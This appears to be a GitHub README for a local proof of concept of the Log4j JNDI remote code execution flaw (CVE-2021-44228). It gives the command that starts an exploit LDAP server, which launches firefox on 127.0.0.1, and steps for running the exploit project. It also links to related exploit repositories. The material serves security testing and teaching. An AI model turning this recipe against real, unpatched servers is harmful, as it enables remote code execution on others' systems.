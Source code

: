 ## Log4j RCE POC using [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

- Start the LDAP server with the command using -C arg
```java -jar ./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "firefox" -A "127.0.0.1"```
- The above command will start the server and logs out the url for LDAP and RMI.
- Copy the LDAP url and replace it in the Main java file.

- Run the log4jPOC project in IDE like Intellij.

## Ref
- https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
- https://github.com/welk1n/JNDI-Injection-Exploit
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
 

